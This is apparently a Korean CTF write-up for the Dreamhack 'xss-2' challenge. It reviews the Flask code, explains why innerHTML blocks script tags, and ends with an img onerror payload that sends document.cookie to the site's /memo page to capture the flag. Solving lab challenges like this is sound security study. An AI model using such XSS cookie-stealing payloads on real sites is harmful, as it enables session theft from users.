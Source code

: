 ```yaml
---
slug: xss-2
title: "xss-2"
description: "여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스다. XSS 취약점을 이용해 플래그를 획득해라"
author: oxahex
createdAt: 2024-05-27
tags: ["wargame"]
---
```


## 문제 설명

[268](https://dreamhack.io/wargame/challenges/268)

여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.

XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 `flag.txt`, FLAG 변수에 있습니다.

플래그 형식은 `DH{...}` 입니다.


## 정보
화면에서 알 수 있는 정보는 최소 3개의 페이지가 있다는 것이다.

![](img/01.png)

- vuln(xss) page 이동 시 쿼리 파라미터의 스크립트 코드는 실행되지 않는다.
- memo 이동 시 `/memo?memo=hello`에 명시된 쿼리 파라미터의 값이 출력된다.
- memo 페이지는 반복 접근 시 로그와 같이 쿼리 파라미터의 값이 계속해서 쌓인다.
- flag 페이지의 form은 `POST /flag`로 요청을 보낸다.

코드를 통해 각 페이지의 동작을 확인할 수 있다.

`/vuln` 페이지 접속 시 동작은 다음과 같다.

```python
@app.route("/vuln")
def vuln():
    return render_template("vuln.html")
```
화면에서 확인했을 때는 쿼리 파라미터를 받고 있었는데, 쿼리 파라미터에 대한 별다른 조치 없이 `vuln.html` 파일을 그대로 렌더링 처리하고 있다. `vuln.html` 파일을 확인하면 다음과 같은 스크립트가 삽입되어 있는 것을 볼 수 있다.

```html
<script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
```

서버로부터 `vuln.html` 파일을 렌더링한 후 스크립트가 실행되면서 현재 URL의 쿼리 파라미터 부분을 `innerHTML`로 요소에 삽입하고 있다.

![](img/02.png)

그래서 서버 측에서 따로 방어 코드를 작성하지 않아도 `/vuln` 페이지에서는 스크립트가 실행되지 않는다. HTML5에서는 `innerHTML`로 삽입된 `<script>` 태그는 실행되지 않도록 지정하기 때문이다. ([참고](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations))

`/flag` 페이지 접속 시 동작은 다음과 같다.

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

GET 방식 요청의 경우 `flag.html` 파일을 렌더링하고, POST 방식 요청의 경우 `check_xss()` 함수를 실행한다. 함수 실행 시점에 `./flag.txt` 파일의 내용이 인자로 전달된다.

`check_xss()` 함수는 다음과 같다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

`/flag` 페이지에서 입력 받은 값을 `/vuln` URL의 쿼리 파라미터로 사용한다. `read_url()` 함수는 Selenium으로 `url`에 접근하고, 쿠키를 설정한다.


## 취약점
`/vuln` URL의 쿼리 파라미터에 대한 방어 코드가 서버 측에 존재하지 않고 HTML5에서 지원하는 `innerHTML`의 기본적인 방어에 의존하고 있다. `innerHTML`로 쿼리 파라미터의 값을 DOM 요소 내에 삽입하고 있으므로 입력값이 DOM에 포함될 가능성이 있다. `<script>`를 사용하지 않고 JavaScript를 실행할 수 있으므로 이 부분이 취약하다.


## 풀이
`<script>`를 사용하지 않고 JavaScript를 실행하려면 어떻게 해야 할까? `innerHTML`로 삽입할 수 있는 DOM Element를 통해 스크립트를 실행할 수 있다.

```html
<img src="nowhere" onerror="alert(1)" />
```
만약 위의 이미지 태그가 DOM에 삽입된다면 이미지를 불러오는 데 실패할 것이고, `onerror`에 지정한 스크립트가 실행될 것이다.

`/flag` 페이지를 통해 `/vuln` 페이지에 접속할 때 플래그가 쿠키에 저장된다. 따라서 이 시점에 스크립트를 실행할 수 있다면 `/memo` 페이지에  해당 쿠키 값을 기록할 수 있을 것이다.

```html
<img src="nowhere" onerror="location.href='/memo?memo=' + document.cookie" />
```
